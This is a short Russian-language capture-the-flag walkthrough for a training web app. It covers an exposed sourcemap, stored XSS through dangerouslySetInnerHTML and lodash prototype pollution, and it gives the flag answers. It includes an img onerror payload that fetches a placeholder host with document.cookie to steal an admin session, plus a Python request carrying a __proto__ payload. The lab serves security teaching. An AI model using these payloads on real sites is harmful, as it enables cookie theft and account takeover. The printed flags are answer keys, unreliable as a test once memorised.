 # POC

## Шаг 1
Зарегистрируйтесь на сайте используя любой удобный логин и пароль. Изучите веб приложение, похоже в нём есть уязвимость **Sourcemap**. Какой компонент отвечает за отображения комментария к статье? 

Подсказки:
- Source Map — это исходный код приложения, который добавляется к сборке, для удобной отладки веб приложения во время разработки, который по ошибке разработчика может попасть в итоговую версию приложения
- Исходный код виден в консоли разрабочика во вкладке "Отладка", зачастую папка с исходным кодом называется static

(Ответ *CommentItem* или *CommentItem.jsx*)

## Шаг 2

Правильно. Кажется кому то лень было заморачиваться с качественным отображением комментария и разработчик засунул комментарий прям в **dangerouslysetinnerhtml**! Попробуйте украсть cookie администратора и получить доступ к его учётной записи! В разделе настроек профиля найдите флаг!

Подсказки
- уязвимость XSS чаще всего происходит из за некачественной обработки пользовательского ввода, попробуйте поэкспериментировать с полем ввода комментария к статье!
- (?) 
```sh
<img src=x onerror="fetch('http://host:port?c=' + document.cookie)"/>
```

(Ответ *flag_@dm1n_account*)

## Шаг 3

Изучите систему создания новой статьи. Как называется функция, которая отправляет данные о новой статье серверу? 

Подсказки
- Для выполнения этого задания стоит обратиться к исходному коду приложения и найти в нём файл, отвечающий за отображение страницы создания статьи
- Функция расположена внутри компонента ArticleCreator.jsx

(Ответ *addNewArticle*)

## Шаг 4

Кажется на сервере дата обрабатывается с помощью старой версии библиотеки lodash, в которой присутствует уязвимость Prototype pollution. Попробуйте подобрать такую дату, которая изменит прототип объекта, добавив в него поле **flag** со значением **true** и получите флаг!

Подсказка
- для записи даты создания статьи используется функция merge(), которая обрабатывает строку date из запроса и добавляет новые поля даты в запрос к базе данных
- для изменения прототипа обычно используется свойство **__proto__**

(Ответ *fl@g_Pro0toTyp3_1s_p0llu1ed*)

```sh
r = requests.post('http://host/api/create', json={
	'userid':1,
	'date':'{"__proto__":{"flag":true}}'
})
```
